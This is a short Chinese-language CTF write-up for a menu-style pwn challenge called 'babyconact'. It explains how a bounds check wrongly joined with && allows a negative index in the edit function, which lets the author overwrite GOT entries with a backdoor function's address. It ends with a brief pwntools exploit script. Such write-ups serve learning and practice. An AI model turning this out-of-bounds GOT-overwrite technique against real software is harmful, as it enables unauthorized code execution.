




# babyconact  
  
只开了NX，有回显函数，还给了后门函数，按理非常简单的一题。  
一开始看到这道菜单题我还以为是堆，最后发现是假的堆题。bug找了好久都买找到，很疑惑这道题能在哪有bug。  
**create**  
  
**edit**  
  
**del**  
  
**show**  
  
进入edit函数的要求（第11行）是存放conact的数组的索引为sum(0x4036D8)的地方不为空，由上面几个函数可知可以连续create10次后随便删掉一个会话（只要不是最后一个）就能满足进入edit函数的条件。  
可是进了edit好像也没有任何bug可利用啊。。。所有的编辑都是在范围之内的，看看能不能edit到got表吧。。。  
  
坏了，got就在存放会话的上方一点点，可是第9行要求索引不能为负。。。  
诶，不对，tmd怎么第9行的判定条件是&&啊！（能发现这点还是因为自己想输入负数的愿望太强烈了，对着这行死盯。。不然可能永远发现不了）  
所以索引直接大胆输负数就好了，于是乎，直接把got表里的地址改成后门函数就好了。。  
最终exp的有效部分甚至不需要十行。。  
```
for i in range(10):
    create(b'aaaa',b'bbbb')
delete(0)
payload1=b'\x56\x10\x40'
payload2=p64(backdoor)+p64(backdoor)
edit(-2,payload1,payload2)
p.interactive()
```
